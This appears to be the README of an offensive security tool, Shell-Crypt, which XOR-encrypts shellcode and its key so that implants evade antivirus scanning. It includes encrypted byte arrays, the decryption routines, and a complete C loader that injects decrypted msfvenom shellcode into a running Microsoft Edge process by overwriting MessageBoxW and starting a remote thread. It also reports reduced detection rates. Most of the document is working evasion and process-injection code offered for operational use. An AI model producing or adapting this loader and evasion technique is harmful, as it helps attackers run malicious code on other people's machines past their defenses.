

<div align=center>
    
</div>

</br>

## Quick Info
Shell-Crypt is a utility for encrypting shellcode for C/C++ based implants using [XOR](https://en.wikipedia.org/wiki/Exclusive_or). It works by encrypting your shellcode with a key of your chosen size and then encrypting the key with a self-bruteforcing xor algorithm. Shell-Crypt provides the operator with the code necessary to decrypt the key and shellcode. It is up to the operator to take the code produced by Shell-Crypt and integrate it into their own implant.

</br>

## Functions & Features

:heavy_check_mark: Evade scan time detection for heavily signatured shellcodes such as msfvenom  
:heavy_check_mark: Hide key from static analysis via encryption  
:heavy_check_mark: Self bruteforcing key  
:heavy_check_mark: Internal validation function to run shellcode & key through decryption & execution process 

## Usage

`ShellCrypt.exe [Key Generation Command] [Input Shellcode File] [Output Shellcode File] [Optional Arguments]`  

Shellcrypt takes 4 positional arguments.

### Positional Arguments
- Key Generation Command
    - This is used to generate the encryption key for the shellcode. To generate a key, use the syntax **gen-keysize**. **gen-** tells Shell-Crypt to generate a key and the **keysize** is the size in bytes of the key to generate. Alternatively, the operator may pass a key of there own to be used instead.

- Input Shellcode File
    - The shellcode to encrypt

- Output Shellcode File
    - The name of the file to write the shellcode to. Existence of file does not matter.

- Optional Arguments
    - Any number of flagged arguments to augment the behavior of the program. No specific order is necessary.

### Optional Arguments
| Argument | Description |
| - | - |
| -p | Print out the plain text version of the key and shellcode
| -q | Suppress the encrypted shellcode output in stdout. Only shows the key, hint byte & decryption functions.
| -t | QOL feature. Run the key / shellcode through the decryption process & execute in local thread to validate functionality

### Usage Examples
- Generate a 256 byte key, write encrypted shellcode to file.  
    - `Shell-Crypt.exe gen-256 ./shellcode.bin ./encrypted.bin`  

- Encrypt shellcode with key `00d74f9fbbe24026a9bbb65504c51689`, output to file, only print key / decryption function to terminal
    - `Shell-Crypt.exe 00d74f9f-bbe2-4026-a9bb-b65504c51689 ./shellcode.bin ./encrypted.bin -q`  

- Generate a 56 byte key, output to file & show the plain text version of the shellcode  
    - `Shell-Crypt.exe gen-56 ./shellcode.bin ./encrypted.bin -p `

- Generate a 200 byte key, output to file, only show decryption components, validate the key / shellcode
    `Shell-Crypt.exe gen-200 ./shellcode.bin ./encrypted.bin -t -q`  

</br>

## Output sample

```
// Used by the DecryptKey function to determine what the original key was. Hint byte
// is the unencrypted value of the first byte in the key.
//
BYTE HintByte = 0x6E;

// The encrypted encyption key for the shellcode.
//
char Key[128] = {
        0x99,0x46,0xED,0xAC,0xE9,0x76,0x21,0xD7,0x9F,0xA9,0x62,0xA8,0x44,0x16,0xAA,0x6E,      
        0x27,0x59,0xF8,0x4B,0xB6,0xBC,0x1E,0x6D,0x14,0xC5,0xB9,0x6D,0x27,0xD3,0x3D,0x59,      
        0x74,0x36,0xA6,0x72,0xCA,0xA1,0x30,0xF6,0x5F,0x01,0x31,0x1C,0x4D,0x3B,0x6C,0x11,      
        0x2A,0x58,0x66,0x56,0xBA,0x00,0x84,0xA6,0x36,0x78,0xBB,0xA8,0xBA,0xBB,0x86,0xAA,      
        0x70,0x8A,0x36,0xC8,0x1E,0x33,0xDB,0x3F,0x81,0xD3,0x85,0xB5,0x57,0xAD,0xDA,0x85,      
        0x9D,0x86,0xE5,0x3C,0x3D,0x66,0x83,0x15,0xA6,0xEF,0xFE,0xD5,0xFA,0x1C,0x06,0x36,
        0x58,0xF8,0x03,0x05,0x1E,0x84,0xFB,0xAA,0xED,0xE7,0xD4,0x3B,0xDA,0xC3,0xEA,0xD0,
        0x49,0xEC,0xEE,0x55,0x88,0x37,0x03,0xC2,0x2C,0x05,0xF8,0xBA,0x2E,0x5D,0xA4,0x36
};

// The encrypted shellcode.
//
char shellcode[776] = {
        0x92,0xF8,0x9B,0xBC,0xEA,0x94,0x1C,0x19,0x60,0x55,0xCA,0x05,0xE6,0x84,0x1D,0xC2,
        0xF1,0x4F,0xAC,0xCC,0x65,0xBD,0x81,0xE3,0x9D,0x51,0xBF,0x2D,0xAC,0x4F,0x27,0xDD,
        0x43,0xE8,0xA4,0x10,0x49,0x79,0xAE,0x6D,0xCA,0x87,0xD1,0xF1,0x47,0xD7,0x5C,0x77,
        0x01,0x42,0x3E,0x12,0x1B,0xEE,0x1D,0x5B,0x48,0x9F,0x1F,0x65,0x10,0xCE,0xD1,0xF3,
        0x15,0x74,0xF4,0xAE,0x85,0x3E,0xB7,0x0A,0x6C,0xE7,0x60,0xF6,0x84,0x6B,0x5E,0x5B,
        0x02,0x2B,0xC2,0x77,0xF3,0x4E,0x1E,0x8B,0xF9,0x34,0x2F,0x4F,0xB1,0x8E,0x93,0x2A,
        0xCA,0x6E,0xE6,0xE8,0xCD,0x0F,0x76,0xB2,0x39,0xE7,0x99,0x28,0xC0,0x17,0xFF,0x33,
        0x06,0xB2,0x44,0x79,0x46,0x7A,0xB7,0xF6,0x9C,0xB0,0xD4,0x59,0x69,0xA5,0x9D,0x43,
        0xB8,0xF8,0x29,0x98,0x5B,0xBD,0x19,0x14,0xCC,0x14,0x8A,0x95,0x9F,0x34,0x3A,0x7B,
        0x8C,0x9E,0xB1,0x8D,0x25,0x73,0xEA,0x52,0xBE,0xC1,0x6C,0x3B,0x3F,0x47,0x88,0xC6,
        0x62,0x70,0x49,0x23,0x92,0x3D,0xE9,0x9E,0x0B,0x8D,0x80,0x89,0x8F,0x4F,0x2C,0x3C,
        0xA9,0xF6,0x1E,0x36,0x51,0xC3,0xED,0x5B,0xD1,0x08,0x4B,0x7E,0x50,0x57,0x72,0x47,
        0x06,0x66,0x37,0x7F,0x49,0x5F,0xA7,0xD3,0xD1,0x3B,0x70,0xB6,0x0D,0x57,0x97,0xA8,
        0x08,0xC9,0x8B,0x87,0x89,0xC3,0x43,0xC3,0xC8,0x64,0xFC,0x8E,0x0F,0xF9,0xFA,0x0C,
        0x26,0xC0,0xF7,0xFB,0x85,0x4F,0xF0,0xBE,0x3B,0x46,0xF0,0xA6,0x03,0x8B,0xD8,0x9E,
        0x49,0x55,0x72,0x7C,0x58,0x03,0xF7,0x5F,0x30,0x23,0xD8,0xE3,0x9D,0x60,0xE4,0x8B,
        0x3D,0xE3,0x51,0xE2,0x20,0x2A,0xA9,0xBE,0x60,0x55,0x8B,0x54,0x58,0x01,0xA7,0x81,
        0xC0,0x9D,0xFD,0x98,0x1D,0x18,0xE2,0xB3,0xE5,0x28,0x1A,0x4E,0x86,0x07,0xF6,0xC7,
        0xEA,0x61,0x66,0xA5,0xD9,0x8A,0xA0,0xDA,0x80,0x80,0xAD,0x09,0xDD,0xCC,0x07,0xB4,
        0xFE,0x37,0xE5,0x39,0x90,0x5D,0xFB,0x1A,0x89,0x56,0x12,0xDB,0xC4,0xE7,0xD2,0x1E,
        0x47,0x3C,0x50,0x88,0xC7,0x0D,0x89,0xE5,0x7B,0x83,0x1F,0xB4,0x10,0x5D,0x97,0x15,
        0x69,0x42,0xAF,0x17,0x14,0x74,0x2D,0xEE,0xA8,0xC9,0xC6,0xB3,0xC2,0xDB,0xD2,0x18,
        0x28,0xE5,0xBF,0xDC,0xB5,0x77,0x91,0x85,0xDB,0xEF,0xC3,0x3B,0x9E,0x8C,0xC0,0xD9,
        0x2A,0xF0,0xF3,0x41,0x65,0x31,0x29,0xF4,0x3B,0x09,0xF4,0xBC,0x10,0x6F,0xE0,0x31,
        0x1A,0xF2,0x61,0x6F,0x22,0x2E,0xB8,0x2C,0x3F,0x07,0xD2,0x1E,0xC3,0xE4,0x02,0xBF,
        0xAA,0xC4,0xB5,0x9D,0x5F,0x59,0x9D,0xFB,0xFB,0x51,0x63,0x08,0xEC,0x4E,0xE1,0xC3,
        0x26,0xE4,0x19,0x21,0x6F,0x6B,0xD8,0x99,0xAD,0xAA,0xEE,0xA6,0xF8,0xD7,0x39,0xE8,
        0xC4,0x2B,0x6A,0x19,0x63,0x85,0x53,0x78,0xCE,0x01,0x24,0x5E,0x42,0x5C,0x74,0x54,
        0x3D,0x4F,0x3B,0xA8,0xDC,0x1B,0xDE,0xC8,0x58,0xAF,0x67,0xAF,0x15,0x62,0xEE,0x12,
        0x75,0x0D,0xB4,0x28,0x42,0x78,0x2C,0xBB,0x92,0xF8,0xC1,0xB0,0x88,0xDB,0xCC,0x0E,
        0x76,0x9A,0xCD,0xB9,0xC1,0x38,0x94,0xAE,0xC6,0xCF,0x8E,0x2C,0xAE,0xA4,0x9A,0xDC,
        0x7A,0xF3,0xEF,0x79,0x38,0x0E,0x30,0xF9,0x09,0x1D,0xF6,0x96,0x10,0x45,0xB3,0x17,
        0x58,0xF8,0x4B,0x21,0x72,0x04,0x9E,0x70,0x53,0x1A,0xDD,0x37,0xEF,0xBD,0x1C,0xD9,
        0x8D,0xD4,0x93,0xE5,0x4A,0x41,0xE5,0xE5,0xA8,0x70,0x03,0x29,0xC1,0x40,0xE9,0xFE,
        0x56,0xCE,0x2F,0x2A,0x90,0xF0,0xF2,0x80,0xC1,0x95,0xD1,0xF1,0x47,0xCC,0x25,0x0F,
        0xAD,0x4C,0xF7,0xEA,0x19,0xC2,0x3D,0x1A,0xD9,0x05,0x41,0x6D,0xD6,0xCD,0xD8,0x4B,
        0x69,0x07,0x80,0x29,0xED,0xF6,0x20,0xEB,0x24,0x84,0x60,0x7E,0xA5,0x67,0xC0,0x79,
        0x48,0x48,0x40,0x4B,0x76,0x3C,0x57,0x02,0x19,0xD5,0xAB,0x86,0xE8,0xC7,0x29,0x17,
        0x09,0x30,0x14,0x8F,0x85,0x0E,0xA6,0x09,0x67,0xEA,0x88,0xA1,0x92,0x9D,0xE7,0x31,
        0xBF,0xE7,0x96,0xE6,0x46,0x7A,0xB7,0xED,0x30,0x30,0x52,0x10,0x70,0x2B,0xCD,0x39,
        0x91,0x65,0x9D,0x98,0x6F,0x63,0x98,0xDE,0xA1,0xDD,0x98,0x54,0xA7,0x9D,0xF5,0xCE,
        0x30,0xA8,0x1D,0xA9,0x2D,0x36,0xD3,0x7C,0x1E,0x51,0xCB,0xB0,0xC0,0x05,0x47,0x25,
        0x8B,0xF5,0x2F,0x62,0x19,0x62,0xF8,0xB0,0xC0,0x97,0xD5,0x49,0x5F,0x5E,0x8F,0xA7,
        0xE4,0xB9,0x9F,0x6E,0x09,0xC2,0x3D,0x53,0x33,0x0E,0xB6,0x77,0xF4,0x0F,0x33,0x1E,
        0x47,0xC3,0xAA,0xB4,0x36,0x2C,0xB5,0xC9,0xA7,0x3C,0x60,0x7E,0xA5,0x45,0x56,0xF9,
        0x53,0xE7,0x00,0x78,0x56,0x3C,0x1E,0xC2,0x70,0x46,0xE6,0x7D,0xA3,0x18,0x1A,0x80,
        0x4F,0xAE,0x92,0x8F,0x7A,0xDB,0xEE,0x75,0x76,0x87,0x3C,0xA1,0xB5,0x75,0xC9,0x33,
        0x49,0xE2,0xA6,0xEC,0x8E,0x8B,0x0B,0x6C,0x3B,0xBA,0xCD,0xB8,0x5D,0x74,0x6E,0xA2,
        0x73,0x9A,0x12,0x19,0x93,0xA6,0x2F,0xCC
};

// Description: Encrypt a byte array with XOR
//
// Parameter: PBYTE pData:       A pointer to the bytes to encrypt
// Parameter: SIZE_T SizeOfData: The size of the byte array pointed to by pData
// Parameter: PBYTE pKey:        A pointer to the keys bytes
// Parameter: Size_T SizeOfKey:  The size of the byte array pointed to by pKey
//
VOID Xor(PBYTE pData, SIZE_T SizeOfData, PBYTE pKey, SIZE_T SizeOfKey) {
        for (int i = 0, j = 0; i < SizeOfData; i++, j++) {
                if (j >= SizeOfKey) {
                        j = 0;
                }
                pData[i] = pData[i] ^ pKey[j];
        }
}

// Description: Decrypts the encryption key via bruteforcing
//
// Parameter: BYTE HintByte:      The first byte of the unencrypted key
// Parameter: PBYTE EncryptedKey: Pointer to the byte array that is the encryption key
// Parameter: SIZE_T KeySize:     The size of the byte array pointed to by EncryptedKey
//
PBYTE DecryptKey(BYTE HintByte, PBYTE EncryptedKey, SIZE_T KeySize) {
    BYTE  KeyByte      = 0;
    PBYTE OriginalKey  = malloc(KeySize);
    if(!OriginalKey) {return NULL;}
    while (TRUE) { if (((EncryptedKey[0] ^ KeyByte) - 0) == HintByte) {break;} else {KeyByte++;}}
    for (int i = 0; i < KeySize; i++) {
       OriginalKey[i] = (BYTE)((EncryptedKey[i] ^ KeyByte) - i);
    }
    return OriginalKey;
}
```

</br>

## Integration Into Your Implant
To integrate the decrytion routing in your implant, you will need to follow these steps in the order of presentation
- Decrypt the key
- Decrypt the shellcode with the decrypted key

### Example
This example injects shellcode into microsoft edge and executes using remote function stomping.


```
#include <windows.h>
#include <TlHelp32.h>
#include <stdio.h>

#define error(api_call) printf("[!] " api_call " failed with error: %d\n", GetLastError())

/*
    msfvenom -p windows/x64/exec cmd=calc.exe -o calc.bin -f raw exitfunc=thread 
    .\Shell-Crypt.exe gen-256 .\calc.bin .\encrypted.bin
*/

BYTE HintByte = 0x15;
char Key[256] = {
        0x75,0x32,0x44,0xE2,0xCE,0x3C,0x9F,0xEF,0x51,0x31,0x42,0xF9,0x52,0x0C,0x92,0x28,
        0x2B,0x53,0x89,0x9B,0x8D,0xC0,0x4E,0x6C,0xF9,0x1F,0x09,0x35,0x32,0x77,0xB5,0x93,
        0x32,0x6C,0xF7,0x29,0x9C,0xE4,0x2E,0x28,0x72,0xE9,0x8B,0x8E,0x48,0xCF,0xA3,0x6D,
        0x38,0x96,0x82,0x2E,0x58,0x91,0xC2,0x15,0x69,0x48,0x1D,0x87,0x51,0xDC,0x40,0x09,
        0x8C,0x29,0xA0,0x4A,0x5E,0x70,0xD1,0x64,0x4C,0x36,0x55,0x9F,0x4B,0x67,0xF2,0x77,
        0xB9,0xFF,0x07,0x5F,0x8B,0x2A,0x5F,0xC5,0x06,0x2A,0x07,0x58,0x73,0xFA,0x9D,0x08,
        0x4C,0xB1,0x2A,0x4C,0x3C,0x28,0x32,0x2A,0x87,0x1F,0xC8,0xB3,0x44,0xDD,0xE7,0x8C,
        0x54,0x97,0x7F,0xB4,0x8E,0x93,0x4D,0x43,0x79,0xCE,0xAE,0x30,0xBE,0x9A,0xF5,0x16,
        0x1C,0x0B,0xBB,0x38,0x5E,0x14,0x36,0xC2,0xCB,0xAE,0x8E,0x12,0x9C,0x79,0xAB,0x76,
        0xB3,0xA6,0xD3,0x78,0x49,0x54,0xF3,0x17,0xE8,0x79,0x3B,0x58,0x1B,0x44,0x6F,0x7D,
        0x24,0x81,0x7B,0xD5,0xAC,0xBC,0x88,0xF5,0x80,0x69,0xCC,0x84,0xF9,0x03,0xE6,0x7D,
        0x7C,0xB4,0xAA,0x70,0xE4,0x35,0xFA,0x4A,0x7D,0x36,0xD6,0x97,0xB3,0x00,0xF4,0x85,
        0x8A,0x99,0xD4,0x2B,0x8F,0xA8,0x4E,0xC9,0x8E,0x99,0xED,0x52,0x85,0x83,0xBF,0xE7,
        0x19,0x88,0x6D,0xA6,0x88,0xFD,0x09,0xA3,0x5F,0x4B,0xE6,0xF5,0xAD,0x96,0x2C,0x35,
        0xB7,0x1C,0x2B,0x42,0xED,0x1F,0x30,0x08,0x5D,0x06,0x56,0x02,0xA7,0x81,0x9F,0xBE,
        0x31,0xAC,0x44,0x21,0x5B,0x36,0x48,0xAA,0x35,0x02,0x13,0x7B,0x30,0x4D,0x3E,0x95
};
char shellcode[276] = {
        0xE9,0x19,0xA1,0x9B,0x5A,0xBF,0x39,0x88,0x29,0x48,0x59,0xDF,0x67,0x0F,0xB6,0x68,
        0x6D,0x6A,0xE6,0x3A,0xBC,0xC3,0x93,0xA7,0xE1,0x2E,0xC4,0x68,0x2E,0xB2,0x3C,0x86,
        0x12,0xA3,0xFE,0x54,0x88,0x17,0x27,0x96,0xA0,0x2A,0x8C,0xF2,0x35,0xCA,0xA4,0x1E,
        0x84,0xF9,0xD1,0x67,0x06,0x90,0x4C,0x7F,0x10,0x26,0x4E,0xED,0xF4,0xBE,0x00,0xC7,
        0xFE,0x49,0x2F,0xAF,0x71,0x99,0x4B,0x36,0xA6,0x31,0xA3,0xB5,0x0F,0x31,0xC4,0x40,
        0x89,0x4E,0x15,0xA4,0x12,0x35,0x9D,0x29,0x46,0xF0,0xDD,0x8D,0x3C,0x75,0x87,0x4D,
        0x47,0x30,0xC8,0x80,0xF9,0x33,0x0F,0xB5,0x37,0xE9,0xF7,0x29,0x33,0x64,0x91,0x35,
        0xC5,0x50,0xE0,0x50,0xB3,0x36,0x86,0x6C,0x0D,0x74,0x95,0x1C,0x6F,0x3C,0x16,0x36,
        0xC4,0x0A,0x2C,0x24,0xF6,0xEC,0x9C,0x3F,0x2B,0x00,0x5D,0x36,0x05,0x54,0x65,0xC3,
        0xC8,0x75,0x05,0xCC,0x94,0x4F,0x9B,0xA1,0x7B,0x8C,0x89,0xD9,0x54,0xC7,0x6D,0x37,
        0xA5,0x90,0x38,0x99,0x2C,0xBF,0x0A,0xEF,0xE8,0x21,0x5A,0x78,0xB5,0xE8,0x81,0x34,
        0x2D,0x7B,0x59,0x04,0x91,0xFA,0xAC,0xF0,0x89,0xBD,0xBD,0x6E,0xE8,0x43,0x8E,0x67,
        0x73,0x62,0xBA,0x03,0x39,0xEA,0x3F,0x1D,0xD9,0xCF,0x9E,0x2F,0xA3,0x17,0x11,0xB8,
        0xA9,0x17,0x3B,0xF3,0x14,0x80,0x1E,0x61,0x66,0x53,0xAC,0xBA,0xB0,0xA3,0x5F,0xFD,
        0x98,0x1C,0x96,0xEA,0x12,0x7A,0x77,0xAB,0x5F,0x3C,0xF6,0xD1,0x4E,0x49,0x8C,0x10,
        0xB4,0x93,0xB1,0x8A,0x6F,0x5D,0x34,0xAF,0x57,0xE9,0x82,0xC0,0x21,0x35,0xDB,0xB1,
        0x06,0x23,0x4D,0x15,0xAA,0x0E,0xB8,0x01,0xF3,0xB7,0xCD,0xED,0x47,0x33,0x87,0x17,
        0x5E,0x5A,0xB2,0xE8
};

VOID Xor(PBYTE pData, SIZE_T SizeOfData, PBYTE pKey, SIZE_T SizeOfKey) {
    for (int i = 0, j = 0; i < SizeOfData; i++, j++) {
        if (j >= SizeOfKey) {
            j = 0;
        }
        pData[i] = pData[i] ^ pKey[j];
    }
}

PBYTE DecryptKey(BYTE HintByte, PBYTE EncryptedKey, SIZE_T KeySize) {
    BYTE  KeyByte = 0;
    PBYTE OriginalKey = malloc(KeySize);
    if (!OriginalKey) { return NULL; }
    while (TRUE) { if (((EncryptedKey[0] ^ KeyByte) - 0) == HintByte) { break; } else { KeyByte++; } }
    for (int i = 0; i < KeySize; i++) {
        OriginalKey[i] = (BYTE)((EncryptedKey[i] ^ KeyByte) - i);
    }
    return OriginalKey;
}

int main()
{
    PROCESSENTRY32W Process          = { .dwSize = sizeof(PROCESSENTRY32) };
    DWORD           dwOldProtection  = 0,
                    dwThreadId       = 0;
    SIZE_T          BytesWritten     = 0;
    PBYTE           pbTargetFunction = &MessageBoxW,
                    pbDecryptedKey   = 0;
    HANDLE          hSnapshot        = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0),
                    hProcess         = 0,   
                    hThread          = 0;
    BOOL            Found            = FALSE;

    printf("Searching for msedge.exe, standby...\n");
    if (hSnapshot)
    {
        if (Process32First(hSnapshot, &Process))
        {
            while (Process32Next(hSnapshot, &Process))
            {
                if (wcscmp(L"msedge.exe", Process.szExeFile) == 0)
                {
                    printf("Found microsoft edge at pid [ %d ]. Starting injection procedure.\n", Process.th32ProcessID);
                    Found = TRUE;
                    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Process.th32ProcessID);
                    if (hProcess)
                    {
                        if (VirtualProtectEx(hProcess, pbTargetFunction, sizeof(shellcode), PAGE_READWRITE, &dwOldProtection))
                        {
                            printf("Set memory protection for range 0x%p - 0x%p [%lld bytes] to PAGE_READWRITE\n", pbTargetFunction, (pbTargetFunction + sizeof(shellcode)), sizeof(shellcode));

                            /* Decrypt shellcode encryption key */
                            if (pbDecryptedKey = DecryptKey(HintByte, Key, sizeof(Key)))
                            {

                                /* Decrypt shellcode */
                                Xor(shellcode, sizeof(shellcode), pbDecryptedKey, sizeof(Key));
                                printf("Decrypted encryption key @ 0x%p\nDecrypted shellcode at 0x%p\n", pbDecryptedKey, shellcode);
                                if (WriteProcessMemory(hProcess, pbTargetFunction, shellcode, sizeof(shellcode), &BytesWritten))
                                {
                                    printf("Overwrote MessageBoxW function in msedge with payload\n");
                                    if (VirtualProtectEx(hProcess, pbTargetFunction, sizeof(shellcode), dwOldProtection, &dwOldProtection))
                                    {
                                        printf("Set memory protection for range 0x%p - 0x%p [%lld bytes] to PAGE_EXECUTE_READ\n", pbTargetFunction, (pbTargetFunction + sizeof(shellcode)), sizeof(shellcode));
                                        if (hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pbTargetFunction, NULL, 0, &dwThreadId))
                                        {
                                            printf("Executed shellcode in msedge [%d] on thread [%d]\n", Process.th32ProcessID, dwThreadId);
                                            WaitForSingleObject(hThread, INFINITE);
                                        }
                                        else
                                        {
                                            error("CreateRemoteThread");
                                        }
                                    }
                                }
                                else
                                {
                                    error("WriteProcessMemory");
                                }
                            }
                        }
                        else
                        {
                            error("VirtualProtectEx");
                        }
                    }
                    break;
                }
                else
                {
                    continue;
                }
            }
        }
        else
        {
            error("Process32First"); return -1;
        }
    }
    else
    {
        error("CreateToolhelp32Snapshot"); return -1;
    }

    if (hSnapshot)
        CloseHandle(hSnapshot);
    if (hProcess)
        CloseHandle(hProcess);
    if (!Found)
        printf("[!] No msedge process was found. Launch microsoft edge and run this process again.\n");

    printf("Complete!");
    return 0;
}
```

## Evasion Results
The example code above uses the windows/x64/exec payload from msfvenom. Encrypting the shellcode results in an ~ 67% reduction of detections in comparison to the unencrypted version. As with all evasion techniques, there is no single silver bullet. To successfully execute your payload on a target, other evasion techniques will have to be implemented within your implant. This tool offers an easy method of implementing a particular scan time evasion technique for heavily signatured shellcode.

### Encrypted with Shell-Crypt


### Unencrypted shellcode

